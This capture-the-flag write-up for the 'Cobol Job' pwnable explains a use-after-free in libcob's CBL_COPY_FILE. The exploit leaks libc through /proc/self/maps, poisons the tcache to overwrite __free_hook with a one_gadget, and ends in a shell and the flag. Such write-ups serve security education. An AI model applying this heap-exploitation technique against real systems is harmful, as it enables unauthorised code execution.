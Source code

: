 # The Cobol Job
```
2021          1 Episode

https://www.imdb.com/title/tt5295894/ Update: The "sketchy code" mentioned in a comment is not relevant to the solution.

Director: panda
Cast: kylar, nneonneo
Genre: spwnable

Episodes
1 Cold Open   130 points
    cobol.pwni.ng 3083
```

---

## Overview

This challenge allowed a user to create, open, read, write, close, and copy files inside of a container. Permissions were set in the container so that this challenge wasn't as simple as reading the flag file. The goal was to gain shell access and execute the setuid bit binary, `/freader`, to obtain the flag.

Our solution to this challenge can be broken up into three steps:
* Obtaining libc base from `/proc/self/maps`
* Copy a file to trigger use-after-free to overwrite tcache entry with `__free_hook`
* Write one_gadget to `__free_hook` and trigger a free to obtain a system shell

---

## Libc leak

We can leak segment mappings by reading from `/proc/self/maps`, however, we are not able to read directly from the file as it will trigger a `O_RDWR` and fail.  We can instead copy the `/proc/self/maps` file to `/dev/stdout` to read the segment mapping.

```python
do_copy("/proc/self/maps", "/dev/stdout")
```

---

## Use-After-Free

We eventually found a use-after-free vulnerability in `libcob` inside of the copy file function, `CBL_COPY_FILE()`.  On line 4691 of `fileio.c`, it retrieves an allocation, `fn1`, from `cob_str_from_fld()`. On line 4698, the pointer is passed to `free()`. Then on line 4710, it triggers the UAF by reading the source file's contents into it.

```c
fn1 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[0]);
...
free (fn1);
...
while ((i = read (fd1, fn1, sizeof(fn1))) > 0) {
...
}
```

Source reference: https://github.com/cooljeanius/open-cobol/blob/6391bcc51b26672d482e768cafc69d16a12036d5/libcob/fileio.c#L4710
<details>
  <summary>CBL_COPY_FILE() function</summary>

```c
int
CBL_COPY_FILE (unsigned char *fname1, unsigned char *fname2)
{
	char	*fn1;
	char	*fn2;
#ifdef	O_BINARY
	int	flag = O_BINARY;
#else
	int	flag = 0;
#endif
	int	ret;
	int	i;
	int	fd1, fd2;

	COB_CHK_PARMS (CBL_COPY_FILE, 2);

	if (!cob_current_module->cob_procedure_parameters[0]) {
		return -1;
	}
	if (!cob_current_module->cob_procedure_parameters[1]) {
		return -1;
	}
	fn1 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[0]);
	flag |= O_RDONLY;
	fd1 = open (fn1, flag, 0);
	if (fd1 < 0) {
		free (fn1);
		return -1;
	}
	free (fn1);
	fn2 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[1]);
	flag &= ~O_RDONLY;
	flag |= O_CREAT | O_TRUNC | O_WRONLY;
	fd2 = open (fn2, flag, 0660);
	if (fd2 < 0) {
		close (fd1);
		free (fn2);
		return -1;
	}
	free (fn2);
	ret = 0;
	while ((i = read (fd1, fn1, sizeof(fn1))) > 0) {
		if (write (fd2, fn1, (size_t)i) < 0) {
			ret = -1;
			break;
		}
	}
	close (fd1);
	close (fd2);
	return ret;
}
```

</details>

---

## Modifying Tcache

The freed value above will be pushed into a tcache bin if that tcache bin is not full.  We can control which tcache bin is used here through the size of the source's filename, as the same buffer for the source's filename is also used for the source's contents.

We created and opened a file with a filename length of 0x30 with some arbitrary file size that differs.  The length of 0x30 is used so we fall into the 0x40 size tcache bin. We then wrote the address of `__free_hook` into the file such that it would overwrite the freed memory's forward and back pointers.  We then copy this file with a new file with a different filename size.  This will allocate the first filename, load it into the 0x40 tcache by freeing it, and then set the `__free_hook` address as the chunk's forward and back pointers.  This will manipulate the 0x40 tcache bin such that the 2nd 0x40 allocation request will return the address to `__free_hook`.  The next 0x40 allocation will return the freed address.

The 0x40 tcache bin will now look something like this:
```c
0x40 [  3]: 0x559497863700 —▸ 0x7f994e3368d8 (__free_hook-16) —▸ 0x7f994e9fd340 ◂— 0x7f994e9fd340
```

We then created and opened a new file with some other filename length and a file size of 0x38 for the 0x40 bin.  The create will pop off the 1st 0x40 entry and the open will pop off the 2nd 0x40 entry, `__free_hook`, into a data buffer.  We then write into this buffer by writing to the newly open file the magic one_gadget.  We then close this file to trigger a call to `free()` and in turn jumping to our one_gadget value in `__free_hook`.  We ran `/freader` to obtain the flag.

```
[+] Opening connection to cobol.pwni.ng on port 3083: Done
elf_base: 0x560792499000
heap_base: 0x5607945f9000
libc_base: 0x7f3a5e452000
Run `/freader` for flag
[*] Switching to interactive mode
$ /freader
PCTF{l3arning_n3w_languag3_sh0uld_start_with_g00d_bugs_99d4ec917d097f63107e}
```

---
